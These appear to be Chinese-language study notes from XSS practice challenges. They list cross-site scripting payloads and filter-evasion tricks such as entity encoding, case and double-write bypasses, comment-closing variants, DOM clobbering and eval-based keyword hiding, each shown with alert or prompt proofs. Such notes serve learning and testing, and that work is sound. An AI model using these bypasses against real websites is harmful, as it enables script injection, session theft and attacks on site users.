 # XSS-EASY

## 语句

* 可以进行直接跳转的语句

  ```html
  <script>alert(1)</script>
  <a href=javascript:alert(1)>111</a>
  <input value="1" type="button" onclick="alert(1)">
  <input value="1" type="button" onclick=alert(1)> // 这个到底加不加引号...（加上肯定可以）
  <img src=ssss.ss onerror=alert(1)>
  <iframe src=11 onload=alert(1)>
  <iframe src=11 onmouseover=alert(1)>
  <svg onload=alert(1)>
  ```

* 包含跳转

  ```html
  <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
  ```

  如level15用到的

  ```html
  https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
  ```

## 绕过

* 如果源码自带引号

  * 需要使用引号（区分单双引号）进行闭合，还要闭合尖括号

  > 题目源码上用的双引号，但是又把双引号给实体化了，那就应该没有办法闭合了
  >
  > * 也许`%0d`跳到下一行？
  > * 也许可以尝试不闭合，直接在当前标签里面加内容，但是如果是value="xxx"，那也没有用

* 如果过滤了某个关键词

  * 将关键词某个地方添加下划线（更改关键词）
    * 换另外的关键词用
    * 使用命名实体绕过，如`s`可以写成`&#083;` `&#115;`
    * 大小写绕过

  * 将关键词置为空
    * 可以考虑大小写绕过
    * 可以双写绕过
    * 命名实体绕过
    * 换关键词

* 过滤空格
  
  可以考虑`%0a` `%0d`绕过，这种建议在地址栏输入
  
* 过滤了`<` `>`
  
  可以尝试用onclick在原本的标签里添加(因为不能添加标签了)
  
* 检测传上去的是否包含某个关键词

  * 可以将关键词放后面，然后注释掉，如需要`http://`关键词：

    ```
    java&#083;cript:alert(1) // http://
    ```

* 回显部分被隐藏，如`type="hidden"`
  * 在传输的时候，将type更改成可视，如`type="button"`，这个需要onclick等配合
  * 或者添加参数：onload，onerror，onmouseover等
* 网页显示图片的某个信息
  
* 更改图片的信息，造成XSS漏洞
  
* 找不到传输的地方？
  * user-agent
  * cookie
  * referer
  * ...

## 知识链接

1.  [命名实体](https://www.jb51.net/onlineread/htmlchar.htm) (非特殊字符转义后变成 `&#[ASCII码];`）

2.  [html标签](https://www.runoob.com/tags/html-reference.html)
3.  [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

# XSS-MEDIUM

## 知识点
* 正则表达式
        [正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)
        [正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)
        [正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

* `<script>`标签不饿能自动闭合

   > `<script>`标签必须要闭合，否则js代码不能执行
   > 只有img， input， link， hr，video，audio能自动闭合

* `__proto__`
    每个对象都会在内部初始化这个属性
    当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

* replace()特性

    <img src="XSS-summarize.assets/image-20201121001528627.png" alt="image-20201121001528627" style="zoom:50%;" />

    ```
    >'11223344'.replace('2',"test")
    "11test23344"
    >'11223344'.replace('2',"$`test")
    "1111test23344"
    >'11223344'.replace('2',"$'test")
    "1123344test23344"
    >'11223344'.replace('2',"$&test")
    "112test23344"
    ```

## 绕过

* 空格被置为空

    `(`将其实例化`&#40;` `&#040;`，还需要`<svg>`等标签将其反实例化。

    ```html
    <svg><script>alert&#40;1)</script>
    ```

* `->`被过滤，无法闭合注释。

    可以尝试使用`--!>`来闭合`<!--`
    
* 过滤了一般注释 如过滤了`<!--` 和`//`

    可以使用 `-->` 来注释

* 换行 (`\r` `\n`)被过滤，又必须要换行的时候（如绕过单行注释）

    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  

    使用方法：先用url编码写进burp，然后在burp里面进行url解码

    <img src="XSS-summarize.assets/burp%E8%BD%AC%E7%A0%81.png" alt="burp" style="zoom:50%;" />

* 过滤`on`开头`=`结尾，如`onclick=`

    因为等号的缘故，可以用空格换行等来绕过

    ```
    onclick
    =
    ```

* 检测`document`的某个元素

  可以用另一个元素进行重名覆盖，将input的name改成action，name的action就覆盖了document的action。

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();
</script>
<!-- payload: javascript:prompt(1)#{"action":"111"} -->
```

* 每一段有字符限制，无法构造完整payload

    ```html
    // payload
    // 在标签里面不能注释，如果标签确实差了一些字符，见第一条
    // 关键词不能用注释分开
    // 括号里可以注释
    // 关键词和后面的括号可以用注释分开
    "><svg a=
    /*
    <!--
    ```

* toUpperCase()

    这个时候一些函数因为被大写了，无法使用，可以尝试使用`src=` 这个参数，去包含自己的hack.js(文件名记得大写)

    这个函数还有一个bug， 就是`ſ`经过toUpperCase()之后会被转换成`s`，可以当`s`被过滤的时候来使用

* 当几乎所有的特殊字符都被过滤（包括`=`），但没有过滤`"` 和`()`

    这个时候可以使用`in`运算符

    >在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。
    >
    >```
    >"(prompt(1))instanceof"
    >"(prompt(1))in"
    >```

* 当你的payload直接被加在`<script>`标签里面的时候，又被屏蔽了关键字

    可以采用编解码加eval的方式在过滤，如：

    ```html
    <script> eval((1354620604).toString(35))(1) </script>
    <!-- <script> prompt(1)</script> -->
    ```

